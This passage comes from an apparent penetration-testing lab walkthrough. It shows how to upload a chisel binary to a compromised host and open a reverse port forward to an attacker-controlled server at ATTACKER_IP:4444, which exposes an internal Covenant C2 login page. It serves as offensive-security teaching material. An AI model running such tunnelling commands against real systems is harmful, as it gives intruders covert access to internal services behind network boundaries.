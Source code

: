 Pivoting
--------

### Reverse Port Forward

For the pivoting, I will be using a standalone chisel binary which is my favorite way of pivoting. The first thing we need to do is to transport it to the server. For that we can use these commands:

![](img/wl-get-chisel.jpeg)

We will be performing a reverse port forward! The first step of this is to create a service on our attack box on an arbitrary port:

```bash
./chisel server -p 4444 --reverse
```

Now on the target host, we will first make the binary executable and then we will connect to our chisel server:

```bash
chmod +x ./chisel
chisel client ATTACKER_IP:4444 R:5656:127.0.0.1:7443
```

Note that now we will be able to access this Covenant service on port `5656`. The URL for it on our box is `https://127.0.0.1:5656/` and we are greeted with yet another login page (You do have to click through risk warnings in your browser):
